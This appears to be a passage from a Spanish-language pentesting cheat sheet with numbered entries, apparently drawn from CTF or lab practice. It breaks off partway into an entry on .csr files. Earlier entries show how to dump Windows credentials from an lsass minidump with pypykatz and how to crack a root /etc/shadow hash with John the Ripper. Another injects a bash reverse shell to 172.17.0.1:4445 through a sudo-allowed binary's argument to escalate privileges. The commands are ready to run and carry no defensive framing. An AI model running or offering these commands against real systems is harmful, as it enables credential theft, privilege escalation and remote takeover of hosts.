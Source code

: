 

python -m venv pypykatz-env

source pypykatz-env/bin/activate

pip install pypykatz

forma de uso:

pypykatz lsa minidump lsass.DMP > resultado.txt

-------------------------------------------------------------------------------

## 51.- si tengo una contraseña encriptada como:

root:$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2:19375:0:99999:7:::

que pertenece a al root del archivo /etc/shadow

la parte a desencriptar es:

$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2

las 2 líneas de arriba las guardamos como pass.hash

foma de crackear:

john -w=/usr/share/wordlists/rockyou.txt pass.hash --format=crypt

johnpass.hash --show

-------------------------------------------------------------------------------

## 52.- si tenememos un archivo ELF(Executable and Linkable Format) en C que lea archivos del sistema: ls

ejemplo:
soy el usuario codebad: y ejecuto sudo -l

User codebad may run the following commands on 76aa71834ef3:
    (metadata : metadata) NOPASSWD: /home/codebad/code

el archivo code es un archivo ELF que solo ejecuta ls

artificio para migrar al usuario metadata :

sudo -u metadata /home/codebad/code "-l /home/metadata/user.txt | bash -c '/bin/bash -i >& /dev/tcp/172.17.0.1/4445 0>&1' "

-------------------------------------------------------------------------------

## 53.-  Un archivo .csr es un Certificate Signing Request (Solicitud de Firma de Certificado) que se utiliza en el proceso de obtención de un certificado digital, contiene información codificada en formato PEM o DER. Suelen incluir:

- Una clave pública asociada
